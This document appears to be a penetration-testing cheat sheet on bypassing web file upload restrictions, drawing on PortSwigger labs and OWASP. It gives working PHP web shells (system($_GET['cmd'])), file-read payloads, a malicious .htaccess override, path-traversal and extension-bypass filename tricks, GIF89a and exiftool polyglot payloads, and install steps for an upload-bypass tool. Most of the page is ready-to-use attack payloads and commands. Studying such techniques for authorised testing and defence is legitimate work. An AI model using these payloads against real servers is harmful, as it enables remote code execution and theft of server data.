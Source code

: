 # 🗃 File Upload Bypass

{% embed url="https://portswigger.net/web-security/file-upload" %}
Source
{% endembed %}

![File Upload Bypass Technique](<../../../.gitbook/assets/image (41).png>)

### Web shell Upload via **Content-Type restriction** Bypass

When uploading a .php file;

```bash
# Change :
# Content-Type: application/x-php
# to
# Content-Type: image/jpeg
```

### Web shell upload via path traversal

When uploading a php file; You can upload the file to a different directory with lesser controls (a different directory that's not supposed to contain user-supplied files)

```bash
# Change :
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# to
# Content-Disposition: form-data; name="avatar"; filename="../secrets.php"

# You can encode "../" as :
    %2e%2e%2f
    %252e%252e%252f
    ..%c0%af
    ..%ef%bc%8f
# Then access the file with LFI :
# GET /files/avatars/../secrets.php
```

### Overriding the server configuration

Before uploading a php file;

* Servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.
* Apache servers, for example, will load a directory-specific configuration from a file called **.htaccess** if one is present.

```php
# First, upload a malicious .htaccess :
# Content-Disposition: form-data; name="avatar"; filename=".htaccess"
# Content-Type: text/plain

# AddType application/x-httpd-php .l33t

# Then upload the php file with .l33t extention
# Content-Disposition: form-data; name="avatar"; filename="secrets.l33t"
# Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
# or
<?php system($_GET['cmd']); ?>
```

### Web Shell Upload Bypasses Techniques List

**According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections :**

* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: **exploit%2Ephp**
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like **xC0 x2E, xC4 xAE or xC0 xAE** may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
* **Content-Type** —> Change the parameter in the request header using Burp, ZAP etc.
* Put **server executable extensions :** **.php5**, **.shtml**, **.asa**, **.cert**
* Changing letters to **capital** form : **.aSp**, **.PHp3**
* Using **trailing** **spaces** and/or **dots** at the end of the filename like **.asp.. . .... ...** , **.asp** , **.asp.**
* Use of **semicolon** after the forbidden extension and before the permitted extension : **.asp;.jpg** (_Only in IIS 6 or prior_)
* Upload a file with **2 extensions** —> **file.php.jpg**
* Use of **null** **character**—> **file.asp%00.jpg**
* Create a file with a **forbidden** **extension** —> **file.asp:.jpg** or **file.asp::$data**
* <mark style="color:red;">**ALSO : Combination of the above**</mark>

### Remote Code Execution via Polyglot web shell upload

In order to upload a php file where the file verification is done on the server side (checking if it is really a IMAGE file), we can **disguise a php file** **as an image file.**

When uploading a php file :

```php
# You can add :
GIF89a; // at the beginning of the php file or in the burp request

# Burp request
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# Content-Type: application/x-php

# GIF89a at the beginning of the php command
GIF89a;<?php echo file_get_contents('/home/carlos/secret'); ?>
# OR
GIF89a;<?php system($_GET['cmd']); ?>
```

![PHP file disguised as an GIF file](<../../../.gitbook/assets/image (6) (1) (1) (1).png>)

or, Generate a polyglot payload using **exiftool :**

```bash
# example 1
exiftool -Comment="<?php echo 'START ' . 
file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

# example 2
exiftool -Comment="<?php echo 'START ' . 
system($_GET['cmd']); . ' END'; ?>" $input.jpg -o polyglot.php
```

## upload\_bypass

> File upload restrictions bypass by using different bug bounty techniques! Tool must be running with all its assets!

{% embed url="https://github.com/sAjibuu/upload_bypass" %}

### Install

```bash
git clone https://github.com/sAjibuu/upload_bypass.git
cd upload_bypass/
pip3 install -r requirements.txt

python3 ext_bypass.py -u $url -e $extension-file -a $allowed-extension -s $success-msg --location $path-of-uploaded-file
```

### PoC

{% embed url="https://www.youtube.com/watch?v=quFoDysbDto" %}
